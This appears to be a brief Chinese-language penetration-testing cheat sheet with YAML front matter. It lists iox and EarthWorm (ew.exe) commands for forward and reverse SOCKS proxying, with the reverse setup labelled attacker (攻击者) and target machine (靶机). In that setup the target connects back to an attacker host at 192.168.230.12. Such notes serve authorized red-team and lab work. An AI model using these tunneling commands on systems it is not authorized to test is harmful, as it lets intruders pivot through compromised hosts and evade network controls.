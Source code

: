 ```yaml
---
tags:
  - 代理
create_time: 2024-07-27 21:46
modified_time: 2024-07-27 21:46
status: complete
---
```

正向代理

iox.exe proxy -l 1080

ew.exe -s ssocksd -l 8888


反向代理

攻击者，开启本机1080做代理，代理至8888端口上的连接
iox.exe proxy -l 8888 -l1080
靶机，连接攻击的8888端口
iox.exe proxy -r 192.168.230.12:8888

攻击者
ew.exe -s rcsocks -l 1080 -e 8888
靶机
ew.exe -s rssocks -d 192.168.230.12 -e 8888